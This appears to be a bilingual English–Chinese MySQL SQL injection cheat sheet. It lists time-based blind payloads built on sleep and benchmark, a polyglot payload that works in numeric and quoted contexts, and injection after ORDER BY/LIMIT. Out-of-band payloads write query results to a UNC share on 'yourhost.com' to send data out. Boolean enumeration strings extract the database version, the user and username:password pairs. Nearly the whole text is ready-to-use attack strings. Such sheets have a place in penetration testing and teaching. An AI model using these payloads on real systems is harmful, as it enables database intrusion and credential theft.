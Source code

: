 #### sleep(seconds) (M)
Sleep for supplied seconds.  

`SELECT sleep(10); `  
Sleep 10 seconds.  
`and%20(select*from(select(sleep(10)))a)--`  
注意 sleep/benchmark 函数执行完返回值是 0，故 if(now()=sysdate(),sleep(duration),0) 返回值肯定是0。    

#### More Timing in MySQL
`select benchmark( 500000, sha1( 'test' ) );`  
`query.php?user=1+union+select+benchmark(500000,sha1 (0x414141)),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1`  
`select if( user() like 'root@%', benchmark(100000,sha1('test')), 'false' ); `  
Enumeration data, Guessed Brute Force   
`select if( (ascii(substring(user(),1,1)) >> 7) & 1, benchmark(100000,sha1('test')), 'false' );`  
```
-if(now()=sysdate(),sleep(duration),0)/*'XOR(if(now()=sysdate(),sleep(duration),0))OR'"XOR(if(now()=
sysdate(),sleep(duration),0))OR"*/
```    
上面这条payload 在参数是 数字或者字符串（单双引号）的情形下都是适用的。    

```
SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse(extractvalue(rand(),
concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1)))),1)  
```
上面这条用于 order by limit 之后的timing注入，注意这里不能用sleep函数。  
 
#### Out of Band Channel Attacks
`?vulnerableParam=-99 OR (SELECT LOAD_FILE(concat('\\\\',({INJECTION}), 'yourhost.com\\'))) `  
Makes a NBNS query request/DNS resolution request to yourhost.com  

`?vulnerableParam=-99 OR (SELECT ({INJECTION}) INTO OUTFILE '\\\\yourhost.com\\share\\output.txt')`  
Writes data to your shared folder/file  

{INJECTION} = You want to run the query.  
  
查版本：  
 
`id=1 and (select case when(select substring(version(),1,1) > 4) then 1 else 1*(select 1 union select 2)end)=1`
 
查当前MySQL用户名长度：  
`id=1 and (select case when(select length(user()) > 10) then 1 else 1*(select 1 union select 2)end)=1`
 
查当前MySQL用户名第一个字符内容：  
`id=1 and (select case when(select ascii(substring(user(),1,1)) = 120) then 1 else 1*(select 1 union select 2)end)=1`
`id=5 and ascii(substring((select concat(username, 0x3a, passwd) from users limit 0,1), 1,1)) > 64` /&#42;可利用二分法判断&#42;/  
 
查数据库长度  
`http://172.16.196.23//noruletest/sql.php?id=1 and+length(database())=12%23`  
 
查询首字母、第二个字母等等  
`http://172.16.196.23//noruletest/sql.php?id=1 and+left(database(),1)='d'%23`  
`http://172.16.196.23//noruletest/sql.php?id=1 and+left(database(),2)='db'%23`  
 